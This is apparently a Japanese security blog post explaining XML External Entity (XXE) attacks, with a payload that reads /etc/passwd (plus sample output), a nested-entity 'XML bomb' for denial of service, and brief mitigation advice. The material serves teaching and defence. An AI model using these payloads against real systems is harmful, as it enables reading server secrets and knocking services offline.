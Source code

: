 ```yaml
---
layout: ../../../layouts/Layout.astro
pubDate: "2025-01-28"
updatedDate: "2025-01-28"
title: "XML External Entity（XXE）の攻撃手法と対策"
author: ダーシノ
description: "XML External Entity（XXE）とは、XMLドキュメントのEntity定義を悪用し外部のファイルを参照することでサーバー内などにある機密情報を抜き取ったり、External Entityを利用したDoS攻撃を行う攻撃手法のこと。"
tags: ["Security"]
---
```



<Header {...frontmatter} />


## 概要

XML External Entity（XXE）とは、XMLドキュメントのEntity定義を悪用し外部のファイルを参照することでサーバー内などにある機密情報を抜き取ったり、External Entityを利用したDoS攻撃を行う攻撃手法のこと。

## 攻撃方法の例

### 1. サーバー内のファイルを読み込む

以下のようなXMLファイルをアップロードした場合、`file:///etc/passwd`というファイルを読み込むことができる。
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY name SYSTEM "file:///etc/passwd">
]>
<top><name>&name;</name></top>
```

このXMLデータを解析すると、以下のような`/etc/passwd`ファイルの内容が取得できる。

```html
<p>
  Your name is: root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin
  (省略) nobody:x:65534:65534:nobody:/:/sbin/nologin www-data:x:82:82:Linux
  User,,,:/home/www-data:/sbin/nologin
</p>
```

### 2. Denial of Service（Dos）攻撃

以下のXMLを解析すると、参照をたどり展開されることで `dos` とう文字列が3の4乗、つまり81回繰り返されることになる。これを用いることで、DoS攻撃に利用ができる。（「XML Bomb」などとも呼ばれる）

```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE root [
<!ENTITY b0 "dos" >
<!ENTITY b1 "&b0;&b0;&b0;">
<!ENTITY b2 "&b1;&b1;&b1;">
<!ENTITY b3 "&b2;&b2;&b2;">
<!ENTITY b4 "&b3;&b3;&b3;">
]>
<root>&b4;</root>
```

## 対策

### 1. XMLを利用しない

前提としてXMLを利用しないことで、XXE脆弱性についての問題は解消される。データ参照の機能がないJSONやプレーンテキストなどを検討することが推奨される。

### 2. XMLの機能を制限する

External Entityに適切なバリデーションを行ったり、無効化（解釈しない）したり、XXE対策がされたXMLパーサーを使用する。